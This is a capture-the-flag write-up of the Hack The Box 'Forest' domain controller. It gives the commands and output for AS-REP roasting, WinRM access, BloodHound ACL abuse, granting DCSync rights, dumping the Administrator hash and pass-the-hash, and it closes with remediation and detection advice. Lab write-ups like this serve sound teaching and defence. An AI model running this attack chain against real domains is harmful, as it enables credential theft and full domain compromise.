


# Forest - Hack The Box Write-Up

## Machine Information

| Field | Value |
| --- | --- |
| Machine | Forest |
| Platform | Hack The Box |
| Status | Retired |
| Operating system | Windows Server 2016 Standard, build 14393 |
| Difficulty | Easy |
| Role | Active Directory domain controller for `htb.local` |
| Primary services | DNS, Kerberos, RPC, SMB, LDAP, WinRM |
| Main techniques | Anonymous LDAP enumeration, AS-REP roasting, WinRM, BloodHound ACL analysis, group-control abuse, DCSync, pass-the-hash |

## Executive Summary

Forest exposed enough Active Directory information through an anonymous LDAP bind to enumerate domain users. One service account, `svc-alfresco`, did not require Kerberos preauthentication. The domain controller therefore returned AS-REP material that could be tested offline, and the service account's weak password was recovered with a common wordlist.

The credential provided an interactive WinRM session on the domain controller. BloodHound then revealed a multi-stage authorization path: `svc-alfresco` was transitively a member of `Account Operators`; that group had `GenericAll` over `Exchange Windows Permissions`; and `Exchange Windows Permissions` had `WriteDacl` over the `htb.local` domain object.

Those relationships were converted into control by creating a temporary domain user, adding it to the Exchange group, and using the group's domain-level `WriteDacl` permission to grant the temporary account directory-replication rights. Impacket's `secretsdump` then performed a DCSync operation to recover the built-in Administrator's NT hash. The hash was accepted by WinRM, yielding an interactive shell as the domain Administrator without recovering the plaintext password.



## Placeholder and Evidence Conventions

| Placeholder | Meaning |
| --- | --- |
| `<TARGET_IP>` | Current IP address assigned to Forest |
| `<SVC_PASSWORD>` | Redacted password recovered for `svc-alfresco` |
| `<TEMP_USER>` | Redacted attacker-created domain username |
| `<TEMP_PASSWORD>` | Redacted password for the temporary user |
| `<ADMIN_NT_HASH>` | Redacted Administrator NT hash |
| `<REDACTED>` | Sensitive ticket, password, or key material removed from output |

No user or root flag value is included. 

## Reconnaissance

### TCP and Service Discovery

A full TCP scan with default scripts and service detection was performed:

```bash
nmap -p- -sC -sV -Pn <TARGET_IP> \
  --min-rate=10000 \
  -oA nmap/full-scan
```

```text
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0
```

SMB discovery identified the host as `FOREST`, the domain and forest as `htb.local`, and the fully qualified hostname as `FOREST.htb.local`. The combination of Kerberos, LDAP, SMB, and global-catalog services established that the target was a domain controller. Port `5985` exposed Windows Remote Management over HTTP.

The scan warned that the retransmission cap had been reached while the target showed roughly 2.5 seconds of latency. TCP `389` was absent from the Nmap results even though the later LDAP connection to that port succeeded. The aggressive `--min-rate` therefore produced a lossy result; a missing port in this scan was not reliable evidence that the service was closed.

The relevant names were mapped locally:

```text
<TARGET_IP> FOREST htb.local FOREST.htb.local
```

### SMB and LDAP Enumeration

Anonymous SMB authentication was accepted, but share enumeration was denied:

```bash
nxc smb <TARGET_IP> -u '' -p '' --shares
```

```text
[+] htb.local\:
[-] Error enumerating shares: STATUS_ACCESS_DENIED
```

This distinction matters: accepting a guest or null session did not imply permission to list or read shares. NetExec also reported that SMB signing was required, but SMBv1 remained enabled.

LDAP was more permissive. An anonymous bind to TCP `389` returned domain user objects:

```bash
nxc ldap <TARGET_IP> -u '' -p '' --users
```

```text
[+] htb.local\:
[*] Enumerated 31 domain users

sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Built-in accounts and unrelated output were omitted from the public report. The six identified human and service usernames were saved to `usernames.txt` for targeted authentication testing.

## Initial Access

### AS-REP Roasting

The enumerated users were tested for accounts configured without Kerberos preauthentication:

```bash
nxc ldap <TARGET_IP> \
  -u usernames.txt \
  -p '' \
  --asreproast asreproast.txt \
  --continue-on-success
```

The domain controller returned AS-REP material for one account:

```text
$krb5asrep$23$svc-alfresco@HTB.LOCAL:...<REDACTED>
```

With normal Kerberos preauthentication, a client must first prove knowledge of the password-derived key by encrypting timestamp data. `svc-alfresco` had that requirement disabled, so the Key Distribution Center returned an AS-REP without receiving such proof. Part of the response was protected with a key derived from the account password and could be tested entirely offline.

The captured response was passed to Hashcat with the `rockyou.txt` wordlist:

```bash
hashcat asreproast.txt /usr/share/wordlists/rockyou.txt
```

```text
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Status...........: Cracked
Recovered........: 1/1 (100.00%)
```

Hashcat auto-detected mode `18200`. The recovered password is represented as `<SVC_PASSWORD>`.

### Credential Validation and WinRM

The result was first validated against SMB:

```bash
nxc smb <TARGET_IP> \
  -u svc-alfresco \
  -p '<SVC_PASSWORD>'
```

```text
[+] htb.local\svc-alfresco:<REDACTED>
```

Because WinRM was exposed on TCP `5985`, the same domain credential was used to obtain an interactive PowerShell session:

```bash
evil-winrm -i <TARGET_IP> \
  -u svc-alfresco \
  -p '<SVC_PASSWORD>'
```

```text
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

This prompt confirms authenticated command execution as the domain service account on the domain controller. It does not yet represent administrative or domain-level control.

## Privilege Escalation

### BloodHound Collection and Path Analysis

Authenticated LDAP data was collected for BloodHound:

```bash
nxc ldap <TARGET_IP> \
  -u svc-alfresco \
  -p '<SVC_PASSWORD>' \
  --bloodhound \
  --collection All \
  --dns-server <TARGET_IP>
```

```text
[+] htb.local\svc-alfresco:<REDACTED>
[*] Resolved collection methods: objectprops, localadmin, container,
    rdp, session, psremote, dcom, group, trusts, acl
[*] Done in 01M 30S
```

The graph exposed the complete authorization path:



The relationships should be read as distinct capabilities:

1. `svc-alfresco` belonged to `Service Accounts`.
2. Nested membership through `Privileged IT Accounts` placed it in `Account Operators`.
3. `Account Operators` had `GenericAll` over `Exchange Windows Permissions`.
4. `Exchange Windows Permissions` had `WriteDacl` over the `htb.local` domain object.

Membership in `Account Operators` did not make `svc-alfresco` a domain administrator. It granted limited account-management capabilities, including creation and modification of most ordinary users and groups. The custom `GenericAll` edge was what allowed control of the Exchange group, while the Exchange group's `WriteDacl` edge was what reached the domain security descriptor.

### Creating a Controlled Principal

A temporary domain account was created from the WinRM session:

```powershell
net user '<TEMP_USER>' '<TEMP_PASSWORD>' /add /domain
```

```text
The command completed successfully.
```

Because `Account Operators` had full control over `Exchange Windows Permissions`, the new principal could be added to that group:

```powershell
net group 'Exchange Windows Permissions' '<TEMP_USER>' /add /domain
```

The account was also added to `Remote Management Users`:

```powershell
net localgroup 'Remote Management Users' '<TEMP_USER>' /add
```

All three operations returned success. The last membership would permit an alternate WinRM login if needed, but it was not required for the documented DCSync operation because PowerView used the temporary user's credentials from the existing `svc-alfresco` session.

At this point, the temporary account was not a domain administrator. Its important capability was inherited from `Exchange Windows Permissions`: the ability to modify the DACL on the domain object.

### Granting Directory-Replication Rights

PowerView was uploaded and imported into the current PowerShell session:

```powershell
upload PowerView.ps1
. .\PowerView.ps1
```

A credential object was created for the controlled account:

```powershell
$pass = ConvertTo-SecureString '<TEMP_PASSWORD>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\<TEMP_USER>', $pass)
```

The intended ACL change was to grant that principal replication rights on the domain root:

```powershell
Add-DomainObjectAcl `
    -Credential $cred `
    -TargetIdentity 'htb.local' `
    -PrincipalIdentity '<TEMP_USER>' `
    -Rights DCSync
```

`WriteDacl` permits modification of an object's discretionary access-control list. PowerView's `DCSync` rights option adds the directory-replication extended rights to the domain object for the selected principal. This did not add the temporary user to `Domain Admins`; it granted a narrower capability with similarly severe consequences—the ability to request replicated directory secrets.

### DCSync

The temporary account was then used from the attacking host to request only the built-in Administrator's directory secrets:

```bash
impacket-secretsdump \
  'htb.local/<TEMP_USER>@htb.local' \
  -dc-ip <TARGET_IP> \
  -just-dc-user Administrator
```

```text
Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:<REDACTED>:<ADMIN_NT_HASH>:::
Kerberos keys grabbed
<REDACTED>
Cleaning up...
```

The `Using the DRSUAPI method` message and returned account material confirmed that the replication rights were effective. DCSync asks the domain controller to replicate credential data through the directory-replication protocol; it does not require copying `NTDS.dit` from disk.

### Pass-the-Hash as Domain Administrator

The recovered NT hash was accepted by Evil-WinRM as alternate authentication material:

```bash
evil-winrm -i <TARGET_IP> \
  -u Administrator \
  -H '<ADMIN_NT_HASH>'
```

```text
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

This interactive prompt confirms compromise of the built-in domain `Administrator` account on the domain controller. 

## Trust and Privilege Boundaries

| Stage                  | Identity and context                                         | Capability established                                                          |
| ---------------------- | ------------------------------------------------------------ | ------------------------------------------------------------------------------- |
| LDAP enumeration       | Unauthenticated network user                                 | Read domain user objects through an anonymous bind                              |
| AS-REP cracking        | Offline attacker                                             | Recovered a valid service-account password without repeated login attempts      |
| Initial shell          | `htb.local\svc-alfresco`                                     | Executed PowerShell through WinRM as a non-administrative domain account        |
| Account management     | `svc-alfresco` through nested `Account Operators` membership | Created an ordinary domain user and modified permitted group memberships        |
| Domain ACL control     | `<TEMP_USER>` through `Exchange Windows Permissions`         | Modified the domain object's DACL because the group held `WriteDacl`            |
| Credential replication | `<TEMP_USER>` after the new ACE                              | Requested directory credential material through DRSUAPI                         |
| Final shell            | `htb.local\Administrator` via NT hash                        | Executed commands as the built-in domain Administrator on the domain controller |

The key transition was not membership in a group named “permissions.” It was control over a group whose ACL on the domain root allowed its members to grant replication rights. DCSync capability is narrower than `Domain Admins` membership, but disclosure of administrator and `krbtgt` credential material can still amount to full domain compromise.

## Security Observations and Remediation

| Observation | Impact | Recommended control |
| --- | --- | --- |
| Anonymous LDAP binds exposed domain users | An unauthenticated attacker obtained a reliable account list for targeted Kerberos requests | Disable unnecessary anonymous LDAP access and verify directory permissions for unauthenticated principals |
| Kerberos preauthentication was disabled for `svc-alfresco` | The KDC returned password-derived material without prior proof of password knowledge | Enable preauthentication on all compatible accounts and audit Event ID 4768 for Pre-Auth Type 0 |
| The service-account password was present in a common wordlist | A single AS-REP response yielded the plaintext credential offline | Use long, random, unique service credentials and prefer managed service accounts where supported |
| A service account was transitively a member of `Account Operators` | Compromise of an application identity granted domain account-management capabilities | Remove service identities from privileged nested groups and regularly review transitive membership |
| `Account Operators` had `GenericAll` over `Exchange Windows Permissions` | Members could control who inherited the Exchange group's privileges | Remove unnecessary full-control ACEs and delegate only the specific operations required |
| `Exchange Windows Permissions` had `WriteDacl` on the domain root | Control of the group became a direct path to replication rights and domain credential theft | Review legacy Exchange delegations, remove domain-root DACL modification rights where no longer required, and treat such groups as Tier Zero |
| DCSync rights could be granted to and used by a non-DC principal | Directory password hashes and Kerberos keys were remotely replicable | Restrict replication rights to domain controllers and approved services; monitor Event ID 4662 and DRSUAPI traffic from non-DC systems |
| SMBv1 was enabled | The domain controller retained an obsolete protocol with unnecessary attack surface | Disable SMBv1 while retaining SMB signing and modern SMB versions |
| The attack created a user, changed group memberships, and added domain ACEs | Successful exploitation left persistent directory changes | Alert on unexpected account creation, privileged group changes, and Events 4670/4662; remove the temporary user, memberships, and replication ACE during cleanup |

WinRM should also be restricted by network policy and endpoint authorization to the administrators and management systems that genuinely require it.

## Key Lessons

1. Aggressive scan rates can reduce accuracy. A successful LDAP connection to a port omitted by Nmap is stronger evidence than the scan's absence of that port.
2. Anonymous access is service-specific: SMB share listing failed while LDAP user enumeration succeeded.
3. AS-REP roasting abuses legitimate Kerberos behavior after a dangerous account setting disables the normal proof-of-password step.
4. Nested group membership is transitive. A seemingly ordinary service account inherited `Account Operators` capabilities through two intermediate groups.
5. BloodHound edges describe exact authorization relationships. `GenericAll` over a group and `WriteDacl` over a domain cross different security boundaries.
6. Granting replication rights does not make an account a domain administrator, but DCSync can disclose credentials that lead to equivalent control.
7. Pass-the-hash demonstrates why an NT hash is authentication material, not merely evidence that a password once existed.

## References

- [Hack The Box: Forest](https://www.hackthebox.com/machines/forest)
- [MITRE ATT&CK T1558.004: AS-REP Roasting](https://attack.mitre.org/techniques/T1558/004/)
- [Microsoft Learn: Active Directory security groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)
- [SpecterOps BloodHound: GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all)
- [SpecterOps BloodHound: WriteDacl](https://bloodhound.specterops.io/resources/edges/write-dacl)
- [PowerShellMafia PowerSploit: PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [MITRE ATT&CK T1003.006: DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [Microsoft Learn: DS-Replication-Get-Changes-All extended right](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all)
